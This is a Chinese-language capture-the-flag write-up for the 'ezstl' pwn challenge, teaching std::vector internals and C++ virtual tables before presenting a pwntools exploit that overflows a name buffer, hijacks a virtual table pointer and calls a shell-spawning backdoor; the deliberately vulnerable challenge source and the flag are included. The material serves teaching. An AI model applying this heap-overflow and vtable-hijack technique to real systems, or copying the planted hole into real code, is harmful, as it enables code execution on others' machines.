

# ezstl - WriteUp

> [!TIP]
> :heavy_check_mark: 完整 exploit 代码见[此处](../code/exploits/ezstl.py)  

> 本题知识点：  
> :star::star::star: STL内部代码的阅读能力  
> :star::star: std::vector的内存结构  
> :star::star::star::star: C++虚函数与多态性的底层实现
>
> 综合难度： :star::star::star::star:

源码因篇幅太长而置于文末。

## `std::vector` 容器的内部结构

打开你的 IDE（或者配置好插件的vscode），打开 pwn.cpp，**Ctrl+左键** `std::vector` 跳转到 vector 的定义。
    
你会发现：`std::vector`中没有直接声明任何变量，只是一堆类型别名（typedef）  
于是继续追踪**父类** `_Vector_base`，发现内部声明了3个变量，部分代码如下：

```cpp
pointer _M_start;
pointer _M_finish;
pointer _M_end_of_storage;
```
> PS: 这里其实是`_Vector_base`中的一个内部结构体的3个字段  

经过一番研究，最终确定 `std::vector` 内部实际存着3个指针，  
结合名称可知：

- **_M_start**: 指向缓冲区的起始位置（类似栈底）
- **_M_finish**: 指向存储的最后一个数据（最后push_back的）（类似栈顶）
- **_M_end_of_storage**: 指向缓冲区的末尾

在 **x86_64** 架构下，3个指针各占8字节，  
即一个 `std::vector` 对象占据 **0x18** 个字节。

## C++中的虚函数和多态性

此处假设你了解过**多态性**相关的知识，若不了解请戳[这里](https://zhuanlan.zhihu.com/p/1967019746835796329)。

### 虚表

我们都知道，通过多态性可以实现动态派发。  

在C++中，多态性是通过**虚表 vtable**实现的。

虚表是一个**指针数组**，存放着**子类**的虚函数地址，以**nullptr**（0）结束，  
同时C++会在每个拥有虚方法的对象中额外存储一个**虚表指针 vptr**来指向虚表，  
当调用虚方法时，程序会从**vptr**一路追踪到子类的虚函数地址并调用。

### 一个简单的例子

```cpp
class A {
public:
    virtual void vfunc1();
    virtual void vfunc2();
    void func1();
    void func2();
private:
    int m_data1, m_data2;
};
```

`A`类中声明了2个虚函数，定义相关对象后在内存中的结构如下图所示：



**vptr**的位置因编译器而异，大多数情况位于对象的**首部**，在所有成员之前。

> 以上示例来自于：https://zhuanlan.zhihu.com/p/75172640  

## 分析源码

先看`main`函数，

```cpp
HeapData *data = new HeapData;
Profile *profile = &data->profile;
StyleData *custom_style = &data->custom_style;
```

程序先**在堆上**分配了一块内存，用以存储一个`HeapData`对象

### 追踪到`HeapData`结构体

```cpp
struct HeapData {
    Profile profile;
    StyleData custom_style;
};
```

### 继续追踪`Profile`

```cpp
struct Profile {
    char name[0x30];
    std::vector<void *> styles;
    Badge badge;
};

class Badge {
public:
    virtual void show()
    {
        puts("guest badge");
    }
};
```

可以看到，`Profile`中存了3个成员：

- **name**占了0x30个字节  
- **styles**是`std::vector`类型，占0x18字节  
- **badge**没有成员，但是有虚函数，所以存在一个0x8字节的虚表指针。  

因此，我们可以梳理出`Profile`的内存结构：

|成员|偏移|大小|
|-|-|-|
|name|+0x00|0x30|
|styles|+0x30|0x18|
|badge|+0x48|0x08|  

### 追踪`StyleData`

```cpp
struct StyleData {
    void *slot[1];
};
```

结构很简单，只存了一个单元素的**指针数组**。

## 分析二进制文件

拿到 pwn 题后的经典流程

```bash
$ checksec --file=pwn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols        No    0               3               pwn
```

**checksec**发现关键保护几乎全开，使得**ROP**这条路被封死了。

同时也没有保留调试信息，动态分析也不可行，只能从源码和反编译去静态分析。

## 回到`main`函数

程序分配了`HeapData`后泄露了**profile**的地址，然后读取**0x48**个字节写入**profile->name**。

感觉到哪里有问题了吗？**name**的大小是**0x30**，这里显然存在**0x18**长度的溢出！

还记得`Profile`的内存结构吗？溢出的**0x18**字节刚好能完全控制**styles**！

不难想到，通过控制**styles**的起始指针，我们可以实现任意写入！

> PS: 通过控制缓冲区指针也可以做到任意释放，不过本题没有用到。  

## 深入分析

可以看到，程序内向外暴露了一个后门函数 `win` 。

```cpp
extern "C" void win()
{
    puts("admin badge");
    system("/bin/sh");
}
```

那么我们的目标就非常明确了：想办法调用这个函数。

结合前面的分析，我们已经拥有了任意写入的能力，程序也只泄露了**profile**的地址，那我们能做的就是去控制**profile**中的成员。

在这之后，程序通过了`check_badge`间接调用了**badge**的虚函数，而这便是我们的突破点。

通过进一步分析，我们发现**custom_style**的内容是**可控的**，我们就可以将**badge**的虚表指针指向**custom_style**，再通过**custom_style**写入一个假虚表，指向`win`。

## Exploit！

接下来，便只需要按照流程来一步步编写 exploit 脚本即可。

|步骤|行为|作用|
|-|-|-|
|1|读取程序中泄露的**profile**地址|计算出**profile->badge**偏移值|
|2|使用溢出的0x18字节将**styles**定向到**badge**的地址|覆盖**badge**的虚表指针|
|3|将泄露的`win`地址转换为10进制并写入**custom_style**|构建假虚表|
|4|成功拿到后门，`cat /flag`即可||

最终 Exploit 脚本：

```python
from pwn import *
context(os='linux', arch='amd64')

port = 0 # 映射端口，开环境后自行修改
r = remote('localhost', port) if port != 0 else process('./pwn')

r.recvuntil(b'profile: ')
profile_addr = int(r.recvline().strip(), base=16)
r.recvuntil(b'name: ')

# 覆盖 styles（badge偏移量为+0x48）
payload = b'A' * 0x30               # 填充垃圾数据
payload += p64(profile_addr + 0x48) # 覆盖 start
payload += p64(profile_addr + 0x48) # 覆盖 end
payload += p64(profile_addr + 0x50) # 覆盖 end_of_storage
r.send(payload)

# 拿到 win 的地址
r.recvuntil(b'win: ')
win_addr = int(r.recvline().strip(), base=16)

# 将 win 的地址写入 custom_style
r.recvuntil(b'style data: ')
r.sendline(f'{win_addr}'.encode())

# 拿到 shell
r.interactive()
```  

拿到flag：

```bash
$ cat /flag
moectf{Iove_frOM-c++-@ND-5tI7b01dd7a2d}
```

恭喜拿下 300pts！

## 题目源码

```cpp
#include <cstdio>
#include <cstdlib>
#include <unistd.h>
#include <vector>

class Badge {
public:
    virtual void show()
    {
        puts("guest badge");
    }
};

extern "C" void win()
{
    puts("admin badge");
    system("/bin/sh");
}

struct Profile {
    char name[0x30];
    std::vector<void *> styles;
    Badge badge;
};

struct StyleData {
    void *slot[1];
};

struct HeapData {
    Profile profile;
    StyleData custom_style;
};

void setup()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    alarm(60);
}

unsigned long read_ulong()
{
    char buf[0x40] = {};
    size_t i = 0;

    while (i + 1 < sizeof(buf)) {
        char ch = 0;
        ssize_t n = read(0, &ch, 1);
        if (n <= 0) {
            exit(0);
        }
        if (ch == '\n') {
            break;
        }
        buf[i++] = ch;
    }

    return strtoul(buf, NULL, 0);
}

void add_style(Profile *profile, StyleData *style)
{
    profile->styles.push_back(style);
}

void check_badge(Badge *badge)
{
    badge->show();
}

int main()
{
    setup();

    HeapData *data = new HeapData;
    Profile *profile = &data->profile;
    StyleData *custom_style = &data->custom_style;

    puts("== pwn ==");
    printf("profile: %p\n", profile);
    // printf("style: %p\n", custom_style); // 注：这行代码在实际二进制文件中并不存在
                                            // 可能是出题人的疏忽

    printf("name: ");
    if (read(0, profile->name, 0x48) <= 0) {
        exit(0);
    }

    add_style(profile, custom_style);

    printf("win: %p\n", (void *)win);
    printf("style data: ");
    custom_style->slot[0] = (void *)read_ulong();

    puts("checking...");
    check_badge(&profile->badge);

    _exit(0);
}

```